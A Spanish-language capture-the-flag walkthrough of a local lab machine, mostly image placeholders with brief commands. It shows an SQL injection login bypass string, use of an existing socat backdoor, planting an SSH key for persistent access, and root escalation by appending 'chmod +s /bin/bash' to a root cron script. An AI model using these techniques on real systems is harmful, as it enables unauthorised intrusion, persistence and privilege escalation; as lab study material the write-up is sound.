


dirsearch .u 172.17.0.2


Intentamos hacer SQL Injections. podemos apoyarnos de ->[Github](https://github.com/austinsonger/SQL-Injection-Authentication-Bypass-Cheat-Sheet)

admin
test' or '1'='1' -- -







conx          54  0.0  0.0   9288  3620 ?        S    17:10   0:00 socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash



Nos conectamos a conx a traves de una backdoor

Generamos una clave SSH para autenticarnos sin contraseña

Levantamos un SV web para exponer la clave publica

## Inyectamos la clave en la maquina victima
Desde la sesion, se decarga la clave publica y la configuramos para acceso persistente



Esto habilita el acceso **SSH** sin contraseña como conx desde mi maquina 

## Enumeracion de con jobs
Explorando /etc/cron.d/, encontramos un cron ejecutado por root:



* * * * * root bash /var/backups/backup.sh
Este script se ejecuta cada minuto como root

## Escalada a root mediante SUID
Modificamos el script para añadir el bit SUID a /bin/bash
**echo 'chmod +s /bin/bash' >> /var/backups/backup.sh**
despues de que se ejecuta el cron se verifica
**ls -la /bin/bash**
el resultado nos demuestra que, esto permite ejecutar bash como root desde cualquier usuario

## Obtencion del ROOT

se ejecuta el comando, un minuto despues (Se debe esperar 1 minuto)
**/bin/bash -p**

y por ultimo confirmamos quien somos con **whoami** y vemos que obtuvimos **Root**